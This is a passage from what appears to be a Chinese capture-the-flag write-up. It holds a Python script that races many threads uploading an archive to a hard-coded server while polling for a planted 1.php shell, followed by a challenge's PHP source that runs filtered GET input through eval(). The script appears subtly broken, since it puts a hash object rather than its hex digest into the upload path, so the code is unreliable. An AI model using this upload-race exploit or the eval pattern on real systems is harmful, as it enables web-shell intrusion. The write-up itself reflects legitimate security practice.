 直接写脚本

```python
import requests
import hashlib
import threading
import base64

url = "http://1.14.71.254:28451/"
sess=requests.session()
r = open("1.zip", "rb").read()
content = base64.b64encode(r)
data={
    'content': content
}
m=hashlib.md5(content)
md=hashlib.md5(('/tmp/'+str(m.digest().hex())).encode())
def write(session):
    while True:
        resp=session.post(url,data=data)
def read(session):
    while True:
        resp=session.get(url+f'static/upload/{md}/1.php')
        if resp.status_code==200:
            print("success")
if __name__=="__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()

        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()

```

##  简单的php

```php
<?php
show_source(__FILE__);
    $code = $_GET['code'];
    if(strlen($code) > 80 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/is',$code)){
        die(' Hello');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);

    }

?>
```
